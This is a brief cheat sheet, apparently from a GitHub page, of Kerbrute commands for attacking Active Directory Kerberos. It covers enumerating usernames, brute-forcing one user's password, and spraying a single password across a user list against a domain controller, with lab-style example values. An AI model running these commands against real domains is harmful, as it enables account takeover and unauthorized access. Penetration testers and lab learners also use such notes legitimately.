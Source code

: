 ## EnumUser

```
./kerbrute userenum --dc <IP address> -d <Domain> <User list>
```

## BruteUser

```
./kerbrute bruteuser -v --dc <IP address> -d <Domain> <Passoword list> <Username>
```

## Userlist & one password

```
./kerbrute passwordspray -v --dc 10.10.10.169 -d megabank.local users.txt 'Welcome123!
```
